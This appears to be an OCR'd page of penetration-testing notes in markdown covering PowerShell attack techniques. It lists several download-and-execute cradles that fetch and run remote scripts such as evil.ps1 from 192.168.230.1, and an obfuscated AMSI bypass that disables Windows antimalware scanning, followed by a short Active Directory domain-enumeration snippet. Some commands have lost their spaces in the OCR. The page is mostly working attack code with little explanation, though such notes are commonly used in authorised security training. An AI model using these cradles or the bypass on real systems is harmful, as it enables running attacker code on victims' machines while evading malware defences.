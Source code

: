 # power shell script execution
```
Download execute cradle
iex(New-ObjectNet.WebClient).DownloadString('https://webserver/payload.ps1') 

$ie=New-Object-ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep5;$response=$ie.Document.body.innerHTML;$ie.quit();iex$response


PSv3 onwards -iex(iwr'http://192.168.230.1/evil.ps1')


$h=New-Object-ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText


$wr=[System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")

$r=$wr.GetResponse()

IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

```

# AMSI bypass:- 
```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```



# Domain Enumeration



# get current domain

# using .NET
```
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```
